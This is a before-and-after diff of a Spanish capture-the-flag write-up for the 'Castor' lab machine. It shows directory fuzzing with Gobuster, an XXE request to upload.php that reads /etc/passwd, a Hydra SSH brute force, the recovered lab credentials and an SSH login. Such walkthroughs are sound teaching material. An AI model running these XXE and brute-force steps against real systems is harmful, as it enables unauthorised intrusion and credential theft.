

Before and after one commit to kaleth4/THEHACKERLABS, a Markdown page: CASTOR/README.md, the part around one of its changes. Shown at 82% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/CASTOR/README.md
+++ b/CASTOR/README.md
@@ -71,38 +90,42 @@ Resultado:
 80/tcp open  http    Apache httpd 2.4.62
 ```
 
-## Título web:
+---
+
+## **Enumeración Web**
+
+### **Título web:**
 **CastorTech | Madera Sostenible**
 
-## Enumeración Web | Fuzzing de directorios
+---
 
-Se utilizó **Gobuster**:
-
+### **Fuzzing de directorios con Gobuster**
 ```bash
 gobuster dir -u http://192.168.80.73/ \
 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt \
 -x php,html,txt
-
-Resultados relevantes:
-- /uploads
-- /upload.php
-- /server-status
 ```
 
-## Análisis de upload.php
+**Resultados relevantes:**
+- `/uploads`
+- `/upload.php`
+- `/server-status`
 
-Se probaron peticiones POST simples:
+---
 
+### **Análisis de `upload.php`**
+
+#### **Prueba básica con `curl`:**
 ```bash
 curl -X POST http://192.168.80.73/upload.php -d "test=hola"
 ```
+**Respuesta:** Sugirió procesamiento XML.
 
-La respuesta sugirió procesamiento XML.
+---
 
-## Prueba XXE
+### **Explotación XXE**
 
-Se creó un archivo `test.xml`:
-
+#### **Archivo `test.xml`:**
 ```xml
 <?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE foo [
@@ -113,27 +136,27 @@ Se creó un archivo `test.xml`:
 </root>
 ```
 
-Petición:
-
+#### **Petición con `curl`:**
 ```bash
 curl -X POST http://192.168.80.73/upload.php \
 -H "Content-Type: application/xml" \
 --data-binary @test.xml
 ```
 
-La respuesta mostró contenido de `/etc/passwd`.
+**Resultado:** Se obtuvo el contenido de `/etc/passwd`.
 
-**Usuario identificado:**
-```
+---
+
+### **Usuario identificado**
+```bash
 castorcin:x:1001:1001:castorcin,,,:/home/castorcin:/bin/bash
 ```
 
-# Acceso Inicial
+---
 
-## Fuerza bruta SSH
+## **Acceso Inicial**
 
-Se utilizó **Hydra**:
-
+### **Fuerza bruta SSH con Hydra**
 ```bash
 hydra -t 4 -vV \
 -L user.txt \
@@ -142,16 +165,15 @@ hydra -t 4 -vV \
 ```
 
 **Credenciales encontradas:**
-```
-Usuario: castorcin
-Password: chocolate
-```
+- **Usuario:** `castorcin`
+- **Password:** `chocolate`
 
-## Acceso SSH
+---
 
+### **Acceso SSH**
 ```bash
 ssh castorcin@192.168.80.73
 ```
 
-## Obtención de flag de usuario:
+---
 
````
Also changed, not shown: other parts of CASTOR/README.md (+59 -47 lines).
